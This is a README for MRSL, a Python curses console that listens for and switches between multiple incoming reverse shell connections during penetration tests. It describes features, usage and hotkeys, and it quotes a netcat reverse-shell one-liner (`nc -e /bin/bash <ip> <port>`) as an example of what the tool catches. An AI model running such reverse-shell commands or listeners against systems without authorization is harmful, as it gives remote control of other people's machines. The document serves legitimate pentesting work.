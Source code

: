 # MRSL
Multi reverse shell/session listener

Simple python script that uses the curses module to present a console based UI for listening for multiple incoming connnections on a defined port. Originally created to listen for multiple reverse shells during pentests where not using metasploit, think listening for multiple \`nc -e /bin/bash \<ip\> \<port\>\` connections. It can also be used for just listening for incoming connections on an arbitrary port, for instance listening on port 80 on the internet can be interesting.

# Current features:
* Automatic logging of all connections to a file, named \<IP\>--\<timestamp\>.log
* Ability to see all active connections and switch between them
* Ability to type data back, i.e. to run commands in reverse shell or return data to HTTP connections

# Usage:
```
usage: mrsl.py [-h] [-p PORT]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT  Port number to listen on (default is 80)
  ```
# Hotkeys:
* TAB: switch between active connections
* F10: close the selected active connection
* F12: exit script, closing all active connections

At any time you can type in a return that will be sent on pressing enter (more work is needed to make the input better, but it's working at a basic level now)


# Notes
More features are planned, but the initial version was created just to serve a current need.

Feedback and pull requests for bugfixes and features are welcome.
